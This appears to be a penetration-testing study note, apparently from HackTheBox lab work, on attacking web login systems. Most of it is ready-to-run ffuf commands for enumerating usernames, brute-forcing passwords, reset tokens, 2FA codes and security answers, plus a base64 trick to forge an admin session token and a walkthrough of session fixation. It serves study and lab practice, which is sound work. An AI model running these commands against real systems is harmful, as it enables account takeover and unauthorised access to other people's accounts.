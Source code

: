 
## Enumerating Users

See if the application gives you an error when attempting to login. If you receive an "Unknown user" or similar message, you can brute force valid users.

```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

## Brute-Forcing Passwords

You can pull words from a wordlist that have an upper character, lower character, digit, and minimum length of 10 characters with this: 

```shell
grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

Then you can use that custom wordlist to attack a valid user:

```shell
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

## Brute-Forcing Password Reset Tokens

Basic Password Reset Flow

![[Pasted image 20240621140243.png]]

#### Generate a wordlist of tokens

```bash
seq -w 0 9999 > tokens.txt
```

#### Fuzz token with wordlist

```bash
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

## Brute-Forcing 2FA Codes

```bash
ffuf -w ./tokens.txt -u http://94.237.57.134:31473/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=efm2jad59b7h6bucb7vhumheop" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

## Brute-Forcing Password Resets

### City-Based
```bash
ffuf -w ./city_wordlist.txt -u http://94.237.54.176:52122/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=ruamg28t7sqoptfq1kee15j82h" -d "security_response=FUZZ" -fr "Incorrect response."
```




## Attacking Session Tokens
### Predictable Session Tokens
Look at the token... can it be easily decoded?

```
echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d

user=htb-stdnt;role=user
```

```
echo -n 'user=htb-stdnt;role=admin' | base64

dXNlcj1odGItc3RkbnQ7cm9sZT1hZG1pbg==
```

### Session Fixation
1. An attacker obtains a valid session token by authenticating to the web application. For instance, let us assume the session token is `a1b2c3d4e5f6`. Afterward, the attacker invalidates their session by logging out.

2. The attacker tricks the victim to use the known session token by sending the following link: `http://vulnerable.htb/?sid=a1b2c3d4e5f6`. When the victim clicks this link, the web application sets the `session` cookie to the provided value, i.e., the response looks like this:

3. The victim authenticates to the vulnerable web application. The victim's browser already stores the attacker-provided session cookie, so it is sent along with the login request. The victim uses the attacker-provided session token since the web application does not assign a new one.

4. Since the attacker knows the victim's session token `a1b2c3d4e5f6`, they can hijack the victim's session.
